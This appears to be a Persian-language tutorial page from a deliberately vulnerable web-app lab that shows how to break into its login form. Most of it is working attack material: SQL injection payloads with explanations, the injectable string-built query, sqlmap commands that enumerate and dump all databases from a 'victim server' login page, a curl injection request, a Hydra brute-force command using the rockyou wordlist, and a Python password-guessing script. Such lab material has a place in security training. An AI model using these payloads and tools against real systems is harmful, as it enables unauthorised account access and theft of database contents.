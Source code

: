 ```
admin' --
123
```

```
' OR '1'='1' --
123
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
  <li>' : اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود.</li>
	<li>-- : یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد</li>
	<li>نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).</li>
	<li>OR '1'='1' : یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)</li>
  </ul>
</p>


```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```

<p dir="rtl" align="justify">نتیجه نهایی:</p>

```sql
SELECT * FROM auth_user WHERE username='' OR '1'='1'
```

# sqlmap

1. نصب sqlmap (اگر وجود ندارد):
```
sudo apt update && sudo apt install sqlmap
```

2. اجرای حمله به صفحه لاگین:

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --risk=3 --level=5 --dbs
```

--data: پارامترهای POST ارسالی.
--dbs: لیست پایگاه‌های داده را نمایش می‌دهد.

برای حمله پیشرفته‌تر:

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --dump-all
```

# curl

```
curl -X POST "http://IP-سرور-قربانی/login/" -d "username=' OR '1'='1' --&password=123"
```


# Brute Force

۱. با ابزارهای خودکار (مثل Hydra یا Burp Intruder)

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt victim-ip http-post-form "/login:username=^USER^&password=^PASS^:F=login_failed.html"
```

-l admin: نام کاربری هدف.
-P rockyou.txt: لیست پسوردهای معروف.
http-post-form: نوع حمله (POST).
F=login_failed.html: شرط تشخیص شکست (اگر این صفحه نمایش داده شد، پسورد اشتباه است).

2.  با یک اسکریپت پایتون ساده (اگر می‌خواهید خودتان بنویسید)


```python
import requests

target_url = "http://victim-ip/login/"
username = "admin"
passwords = ["123456", "password", "admin123", "123"]  # یا از یک فایل بخوانید

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(target_url, data=data)
    if "login_success" in response.text:
        print(f"✅ پسورد پیدا شد: {password}")
        break
    else:
        print(f"❌ امتحان شد: {password}")
```
